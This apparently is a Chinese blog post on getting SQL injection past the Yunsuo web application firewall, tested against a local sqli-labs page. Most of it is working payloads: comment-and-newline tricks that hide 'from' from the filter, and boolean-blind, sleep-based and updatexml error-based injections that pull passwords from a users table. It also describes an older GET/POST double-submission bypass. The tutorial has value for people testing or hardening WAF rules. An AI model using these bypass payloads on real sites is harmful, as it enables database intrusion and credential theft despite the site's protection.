


# 0x00 简单and探索

首先都是来测试下 and的绕过 

```
and 不拦截

and 1 拦截

and a 不拦截

and 'a' 不拦截

and 'a' > < =  拦截

```

差不多知道他的规则了 绕过来就很简单了 

```
mysql> select 'a'-0;
+-------+
| 'a'-0 |
+-------+
|     0 |
+-------+
1 row in set, 1 warning (0.00 sec)

mysql> select 'a'+1;
+-------+
| 'a'+1 |
+-------+
|     1 |
+-------+
1 row in set, 1 warning (0.00 sec)

mysql> select 'a'|1;
+-------+
| 'a'|1 |
+-------+
|     1 |
+-------+
1 row in set, 1 warning (0.00 sec)


and 'a'-0  不拦截

and 'a'|1  不拦截

```


# 0x01 我与云锁有个约会

早期云锁绕过非常简单，只需要在post 和 get 同时提交数据 他会只检测post的内容，很轻松的绕过，但是更新后云锁也是很多人谈之色变的。

以下内容都是把云锁的增强型防护开启


1. 简单的布尔盲注

```
and strcmp((substr((select user/**/()),2,1)),'0')

```

生僻函数绕过 这里比较难的点其实也在from，但是比云盾好点，毕竟可以用到注释

```
http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select from),2,1)),'0')-- +  拦截

http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select /*from*/),2,1)),'0')-- + 不拦截

```

看到这两条语句其实我们可以清楚的知道`/**/` 是我们可以利用的点,结合前面的知识我们只需要把我们的from放在注释里面然后把注释不起作用就OK


```
http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select password/* -- + %0afrom/**/users limit 0,1),1,1)),'D')-- +

```



2. 时间盲注

时间盲注换换就行

```
http://192.168.130.135/Less-1/?id=1'  and if((strcmp((substr((select password/* -- + %0afrom/**/users limit 0,1),1,1)),'D')),1,sleep(5))-- +

```

3. 报错注入

```
http://192.168.130.135/Less-1/?id=1'  and `updatexml`(1,concat(0x7e,(select user/**/()),0x7e),1)/**/-- +

```

其他的自己探索吧,bypass也就一个知识量和思路的结合



# 0x02 文末

#### 本文如有错误，请及时提醒，避免误导他人

* author：404

